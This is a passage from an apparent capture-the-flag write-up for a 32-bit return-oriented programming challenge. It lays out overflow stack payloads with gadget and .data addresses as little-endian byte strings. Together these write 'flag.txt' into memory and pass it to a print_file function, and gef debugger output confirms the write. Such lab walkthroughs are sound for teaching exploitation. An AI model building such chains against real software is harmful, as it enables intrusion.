 	 = &data
	 = 0x0804a01c				 4B
	 = "\x1c\xa0\x04\x08"
	_______________________________________
	ebp
	 = ".txt"
	 = "txt."				 4B
	_______________________________________
	eip = &usefulGadget
	 = 0x08048543 
	 = "\x43\x85\x04\x08"			 4B
	_______________________________________
	eip  
	 = 0x080485aa
	 = cccc 
	_______________________________________



Looks like we can :D. 

	gef➤  i r edi
	edi            0x804a01c           0x804a01c
	gef➤  x/s $edi
	0x804a01c:	".txt"
	
Okay, so we succesfully have put ".txt" at .data+0x4 (edi register) :)


# Passing Arguments to Our Function

We now have put our string in memory! It is located at &data_start, or in other words, the start of the .data section header in our program :)
So, now we set up the stack so that it has those addresses on it, which will be arguments passed into the print_file function:


	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip
	 = &ROP gadget
	 = 0x080485aa				 4B
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 
	 = &data
	 = 0x0804a018				 4B
	 = "\x18\xa0\x04\x08"
	_______________________________________
	ebp 
	 = "flag"				 4B
	 = "galf" (gotta love endian-ness)
	_______________________________________
	eip = &usefulGadget
	 = 0x08048543 				 4B
	 = "\x43\x85\x04\x08"
	________________________________________
	eip = &ROP gadget
	 = 0x080485aa				 4B
	 = "\xaa\x85\x04\x08"
	_______________________________________